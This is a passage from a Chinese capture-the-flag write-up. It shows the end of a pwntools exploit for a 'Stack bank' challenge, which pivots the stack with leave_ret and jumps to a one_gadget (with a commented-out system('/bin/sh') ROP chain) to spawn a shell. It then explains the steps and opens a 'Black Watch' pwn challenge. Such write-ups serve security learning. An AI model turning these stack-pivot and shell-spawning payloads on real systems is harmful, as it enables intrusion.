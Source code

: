 ```plain
leak('system',system)

ru("Ｗelcome to Stack bank,Tell me what you want\n")
pl3='a'*0x60+p64(bank)+p64(leave_ret)
s(pl3)
one_gadget=libc_base+0x4526a

ru("Done!You can check and use your borrow stack now!\n")
pl4=p64(0) + p64(one_gadget) +p64(0)*10
#pl4=p64(0)+p64(rdi_addr)+p64(next(libc.search('/bin/sh\00')))+p64(system)
s(pl4)

p.interactive()
```

[![](assets/1701612250-744faa939e509dacb9a61a6a0a950da9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230725214656-b8b76e2e-2af1-1.png)

继续解释一下exp

*   第一个框，这里是将栈迁移到bss段，但是得留出一段写入ROP链的地方，所以我这里是在bss段多偏移了0xc0的距离，留了很大的一块空间
*   第二个框，这里就是引用了一段gadget进行泄露puts的got表，之后再返回main()
*   第三个框，这里就是再进行一次栈迁移
*   第四个框，将我们的onegadget写入栈帧，后面的p64(0)\*7是为了保持栈的完整性

##### 后话

这里有个点需要注意，这个题目需要在exp前面加上一个 #coding=utf-8 ，不然我们ru接收不了，编码的问题

### \[Black Watch 入群题\]PWN

#### 第一个read不存在溢出，第二个read()存在溢出

**file&checksec**

[![](assets/1701612250-7cd18c05a115997df35454f1c98df3a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230725214703-bc59f65a-2af1-1.png)
